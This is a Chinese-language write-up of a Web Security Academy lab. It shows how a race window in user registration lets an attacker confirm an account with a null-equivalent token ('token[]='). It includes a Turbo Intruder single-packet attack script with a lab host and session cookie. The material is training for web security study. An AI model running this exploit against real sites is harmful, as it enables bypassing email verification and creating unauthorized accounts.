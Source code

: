 ## Partial construction race conditions

许多应用程序在创建对象时需要经过多个步骤，这可能会引入一个临时的中间状态，在该状态下对象是可以被利用的。具体例子看Lab就行。



### Lab: Partial construction race conditions

这个实验开始有点现实渗透的意思了，也是Partial construction race conditions一个典型的例子。

后端注册的逻辑大概就是先将用户名、密码、邮箱存入到数据库中，然后生成这个邮箱对应的token发送到邮箱并将token存入数据库中。用户在邮箱中查收token并验证就可以通过注册了。

对应的漏洞就是，存在这么一个竞争窗口，用户名、密码、邮箱存入到数据库之后，生成token存入数据库之前，在这个窗口中token实际上是null，因此这时候的confirm接口传一个等同于null的token就可以验证通过。



confirm接口是从`/resources/static/users.js`中找到，通过测试发现`POST /confirm?token[]=`的响应结果是`"Incorrect token: Array"`而不是`forbidden`，因此等效于null。

拿**Turbo Intruder**中的`examples/race-single-packet-attack.py`攻击：

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a4e00ff043eb735814e490200960010.web-security-academy.net
Cookie: phpsessionid=BRTkAgx6CPAghuEp5LnJpmdoRvynz5es
Content-Length: 0

'''
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = 'ff'+str(i)
        
        engine.queue(target.req, username,gate='race1')
        for j in range(20):
            engine.queue(confirmationReq, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)

```
